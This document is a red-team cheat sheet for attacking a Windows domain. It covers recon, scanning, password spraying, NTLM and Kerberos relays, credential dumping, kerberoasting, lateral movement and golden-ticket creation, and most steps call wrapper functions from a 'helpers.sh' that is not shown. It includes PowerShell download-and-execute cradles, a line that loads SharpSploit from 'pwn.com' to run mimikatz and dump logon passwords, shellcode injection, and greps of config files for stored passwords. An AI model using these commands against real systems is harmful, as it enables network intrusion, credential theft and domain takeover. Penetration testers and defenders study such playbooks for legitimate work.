 
## Cheat sheet using "helpers.sh" and other scripts/snippets:

### A. outside

#### 1. online content
	 harvestData target.com
	 googleSearch target.com "employee data filetype:pdf"
	 cewlHarvestData https://target.com/page.aspx

#### 2. dns enumeration
	 getIPAddress target.com
	 digDump 10.10.10.1
	 whoisARIN 10.10.10.1
	 dnsRecon target.com ns.target.com
	 dnsReconReverseIP target.com ns.target.com 10.10.10.0/24
	 harvestData target.com

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScan hosts.txt
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://target.com/ /seclists/common.txt -X .aspx, .asmx, .svc
	 wfuzz -w wordlist/general/common.txt http://target.com/FUZZ
	 python cve-2020-XXXX_checker.py target.com

#### 8. exploit
	 sprayHTTP target.com target.local usernames.txt Summer2020
	 rulerCheck user.name@target.local	 
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(iwr http://'...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(gc ....txt|out-string)

### B. inside

#### 1. broadcasts
	 dnsBroadcastDiscovery
	 dhcpBroadcastScan
	 respondRelay
	 tcpdump -lnv -i eth0 icmp

#### 2. dns enumeration
	 getIPAddress target.local dc.target.local
	 digDump dc.target.local
	 dnsRecon target.local dc.target.local
	 dnsReconReverseIP target.local dc.target.local 10.10.10.0/24

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScans hosts.txt
	 serviceScan 10.10.10.1
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 serviceFingerprintScan 10.10.10.1
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. rpc enumeration
	 getRPCUserInfo 10.10.10.1
	 getRPCPWInfo 10.10.10.1
	 checkRPCPrintSpool 10.10.10.1
	 getInterfaces 10.10.10.1

#### 7. dumps
	 dumpRPC 10.10.10.1
	 dumpSAMR 10.10.10.1

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://sp.target.local/ /common.txt -X .aspx, .asmx
	 wfuzz -w wordlist/general/common.txt http://web.target.local/FUZZ
	 python cve-2020-XXXX_checker.py target.local

#### 8. exploit	 
	 spraySMB target.com target.local usernames.txt Summer2020	 
	 implantShellcode
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # iex(new-object net.webclient).downloadstring('...');

### C. local

#### 1. enum
	 # seatbelt -user
	 # invoke-hostenum
	 # invoke-allchecks
	 # invoke-sharefinder
	 # invoke-edrchecker
	 # invoke-bloodhound -domain target.local
	 # $boxes=get-netcomputer -domain target.local -fulldata
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/connectionStrings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/system.web/machineKey")}
	 # $boxes|%{$_|add-member -membertype noteproperty -name ipaddress -value (get-ipaddress $_.dnshostname).ipaddress -force};
	 # $boxes|%{$_|add-member -membertype noteproperty -name shares -value (invoke-sharefinder -computername $_.dnshostname -excludestandard -checkshareaccess) -force};
	 # foreach($item in $shares){$share,$desc=$item -split ' ',2;gci -file -filter *.config -path "$share"|%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")|where key -match pass}}

#### 2. privesc
	 # invoke-kerberoast -domain target.local -outputformat hashcat|select hash
	 # invoke-tokenmanipulation -createprocess "cmd.exe" -username "target.local/user.name" processargs "/c whoami"";
	 # invoke-binary rubeus.exe triage
	 # invoke-binary rubeus.exe dump
	 # invoke-binary internalmonologue.exe
	 # sweetpotato.exe -c 4991d34b-xxx-xxx-xxx-xxx -p cmd.exe -a "/c whoami" -l 65535
	 # dll-loader -http -path http://pwn.com/sharpsploit.dll; [sharpsploit.credentials.mimikatz]::logonpasswords();
	 # inject-shellcode -shellcode $buf -parentid 4502 -queueuserapc	 
	 # invoke-inveigh -http n
	 # invoke-inveighrelay -target target.local -command "whoami"
	 # invoke-socksproxy -port 65535

### D. network 	

#### 1. lateral
     getSPNs target.local
	 crackSPNs spns.txt passwords.txt
	 respondRelay
	 ntlmRelay hosts.txt
	 smbRelay target.local
	 localProxy
	 portForward 65535 127.0.0.1 10.10.10.1 65535
	 socksProxy 127.0.0.1 65535 root 10.10.10.1
	 localHTTPTunnel 127.0.0.1 65535 http://target.com/george.aspx	 
	 pyinstaller.exe -onefile socks.py
	 dropImplant target.local
	 wmiShell target.local
	 winRMShell target.local
	 smbShell target.local
	 getUser admin.user
	 getComputer dc.target.local
	 getUsers target.local
	 getFullComputers target.local
	 getShares target.local
	 mountShare target.local e\$ 
	 find ./ type -f -name "*web*.config"
	 grep -rnw "password" 

#### 2. escalation
	 getLoggedOn target.local
	 getSessions target.local
	 dumpSAM target.local
	 huntUser admin.user
	 getDelegation target.local
	 addSPNDNS host/pwn-target.local dc.target.local
	 addDNS 10.10.10.1 pwn-target.local dc.target.local
	 ntlmRelayDelegate box.local target.local 10.10.10.1
	 krbRelayUser target.local user.name Summer2020
	 krbRelayUser AES256XXXX
	 printerRelay dc.target.local pwn-target.local
	 krbExportTGT dc.target.local_krbtgt.ccache
	 dumpSIDs dc.target.local
	 getGoldTicket AES256XXXX S-1-5-21-XXXX target.local pwn.user
	 dumpDCOnlyTGT dc.target.local
	 searchsploit "privesc"|grep local
	 googleSearch github.com "privesc CVE-2020-XXXX"
